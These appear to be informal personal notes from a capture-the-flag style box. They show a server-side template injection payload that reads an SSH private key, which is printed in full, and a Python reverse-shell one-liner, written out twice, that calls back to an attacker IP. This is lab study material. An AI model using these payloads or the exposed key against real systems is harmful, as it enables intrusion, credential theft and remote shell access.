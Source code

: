 
CMD (or 'exit')> 
`
holy shitsauce thats exciting.  Jumping up and down, showed my kids, etc.  I'm such a loser haha, but, love it.  
Worked out how to get my prepend shell filtered out and cleaned up the code a bit more, wow. Love it.
Figured out how to get Romain some +respect.  I am havnig some problems with my profile, he can't +respect me either atm

:: cmd execution

Tried to figure out how to get a revshell to pop.

quickly just checked ../.ssh/id_rsa, there is a privkey woot
`
CMD (or 'exit')> cat ../.ssh/id_rsa
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cat ../.ssh/id_rsa').read() }}
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----
`
tried to fix invalid format: no luck so far with enters, removing \n as I have before, etc.. weird

looks like my web shell is minimally efficient also, lots of folders not working, / not always working right

changed / to // and same thing, some work, some dont..

tried quickly just dropping to this shell
`
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.47",4464));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`
or, without python -c maybe?
`
exploitcmd=
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.47",4464));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
`
`